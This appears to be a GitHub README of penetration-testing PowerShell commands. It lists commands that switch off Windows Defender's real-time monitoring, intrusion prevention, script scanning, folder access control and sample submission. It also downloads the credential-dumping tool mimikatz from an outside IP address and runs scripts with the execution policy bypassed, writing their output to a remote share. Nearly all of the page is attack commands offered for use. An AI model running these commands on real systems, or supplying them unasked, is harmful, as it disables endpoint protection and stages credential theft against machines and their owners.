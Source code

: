 # praia_essential_commands
Command for pentest

# Disable Windows Defender on Windows 10 using PowerShell
#### Fire up a PowerShell window as administrator and run the following command:

PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true

#### Just set the DisableRealTimeMonitoring back to false to re-enable the real-time monitoring within Defender.

PS C:\> Set-MpPreference -DisableRealtimeMonitoring $false


# File Transfer

```
PS C:\> powershell.exe wget http://10.10.12.39/mimikatz.exe -outfile C:\users\administrator\desktop\mimikatz.exe

PS C:\> powershell.exe Invoke-WebRequest http://10.10.12.39/mimikatz.exe -o mimikatz.exe
```
# Running a Powershell function from command line.

#### First Step (Load PS1 file):

PS C:\> powershell.exe -executionpolicy bypass -file "\\#SERVER\Get-RDPCertificate.ps1"

#### Second Step (Execute Function):

```
PS C:\> powershell.exe -executionpolicy bypass -command {"Get-RDPCertificate -Computername $env:COMPUTERNAME | Out-File -filepath (\\#SERVER\$env:computername-$(get-date -f MM-dd-yy).txt)"}

PS C:\> Set-MpPreference -DisableIntrusionPreventionSystem $true 

PS C:\> Set-MpPreference -DisableIOAVProtection $true 

PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true 

PS C:\> Set-MpPreference -DisableScriptScanning $true

PS C:\> Set-MpPreference -EnableControlledFolderAccess Disabled 

PS C:\> Set-MpPreference -EnableNetworkProtection AuditMode -Force

PS C:\> Set-MpPreference -MAPSReporting Disabled 

PS C:\> Set-MpPreference -SubmitSamplesConsent NeverSend

```
 
